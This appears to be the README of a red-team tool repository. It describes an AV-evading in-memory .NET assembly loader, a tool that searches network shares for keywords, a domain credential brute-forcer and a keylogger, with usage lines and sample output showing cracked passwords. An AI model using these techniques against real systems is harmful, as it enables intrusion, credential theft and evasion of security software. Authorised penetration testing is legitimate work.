 # RTUtils

Repository of random tool / script used during RT / PT

## AssemblyLoader

C# .NET Program to serialize a .NET program into a base64 string encrypted that then will be loaded in memory, allowing to specify arguments, in order to bypass the signature-based detection of AVs

### Example

```
C:\>.\Serializer.exe SharpUp.exe
Copy the content of serialised.txt into the variable "assembly" of Loader
C:\>.\Loader.exe audit

=== SharpUp: Running Privilege Escalation Checks ===

[*] In medium integrity but user is a local administrator- UAC can be bypassed.

[*] Audit mode: running all checks anyway.
```


## SharpFind

C# .NET for finding file name and keyword

### Usage

```
C:\>.\SharpFind.exe
For searching by name: SharpFind.exe name {directory} {name} {extension} [outputFile]
For searching by keyword: SharpFind.exe keyword {directory} {keyword} {extension} [outputFile]

- directory: C:\path\to\directory\ or \\path\to\directory\ or LocalShares (to search into all local network computers [net view]) or LogicalDisk (to search into all logical disks)
- name and keyword: case insensitive
- extension: *.* or *.txt
```
### Example
```
C:\>.\SharpFind.exe keyword LocalShares secret *.*
[*] Getting Shares...
\\EVILCORPVM01\ADMIN$
\\EVILCORPVM01\C$
\\EVILCORPVM01\IPC$
\\EVILDC\NETLOGON
\\EVILDC\SYSVOL
\\EVILDC\Users
[+] \\EVILDC\Users\elliot\Desktop\shared\keyword.doc
[+] \\EVILDC\Users\elliot\Desktop\shared\keyword.docx
[+] \\EVILDC\Users\elliot\Desktop\shared\keyword.pdf
[+] \\EVILDC\Users\elliot\Desktop\shared\keyword.xls
[+] \\EVILDC\Users\elliot\Desktop\shared\keyword.xlsx

C:\ >.\SharpFind.exe name LocalShares findme *.*
[*] Getting Shares...
\\EVILCORPVM01\ADMIN$
\\EVILCORPVM01\C$
\\EVILCORPVM01\IPC$
\\EVILDC\NETLOGON
\\EVILDC\SYSVOL
\\EVILDC\Users
[+] \\EVILDC\Users\elliot\Desktop\shared\AnotherDir\findme.txt
```
## SharpWinLogin

C# .NET for brute-forcing Windows Domain Credential 

### Usage

```
C:\>.\SharpWinLogin.exe
SharpWinLogin.exe {usernameList} {passwordList} {lockoutThreshold} [outputFile]
For searching by keyword: SharpFind.exe keyword {directory} {keyword} {extension} [outputFile]

- usernameList: C:\\path\\to\\usernameList.txt or "username1,username2" or auto (to retrieve the username list from Domain Controller)
- passwordList: C:\\path\\to\\passwordList.txt or "password1,password2"
- lockoutThreshold: n or 0 (for no lockout threshold)
```
### Example
```
C:\>.\SharpWinLogin.exe “locked,angela” “locked,angela1990,test” 0
User locked is disabled
[+] Found credentials angela:angela1990

C:\ >.\SharpWinLogin.exe auto “angela1234,test” 0
User locked is disabled
[+] Found credentials angela:angela1234
```

## Trakker

C# .NET simple Keylogger
